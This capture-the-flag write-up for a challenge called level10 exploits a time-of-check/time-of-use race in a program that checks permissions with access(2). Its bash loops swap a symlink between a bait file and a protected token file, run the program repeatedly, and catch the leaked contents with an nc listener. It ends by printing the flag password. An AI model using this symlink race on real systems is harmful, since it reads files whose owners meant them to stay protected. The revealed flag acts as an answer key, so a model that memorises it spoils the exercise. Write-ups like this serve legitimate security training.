 # level10

The executable `~/level10` can read `~/token` (we can't), but it won't let us because it uses `access(2)` to check if we have permission.

`access(2)` is flawed -> we can create a file we have permition to access & quickly replace it to a symlink to `~/token`

Three separate bash jobs are needed here:

```bash
# Switch between a symlink to ~/token and a bait
touch /tmp/bait;
while true; do ln -sf ~/token /tmp/lnk; ln -sf /tmp/bait /tmp/lnk; done
```

```bash
# Execute the program on the symlink in a loop
while true; do ./level10 /tmp/lnk 127.0.0.1; done
```

```bash
# Read the output
nc -klv 6969 2>/dev/null | grep -v '.*('
```

-> Password to flag10: `woupa2yuojeeaaed06riuj63c`
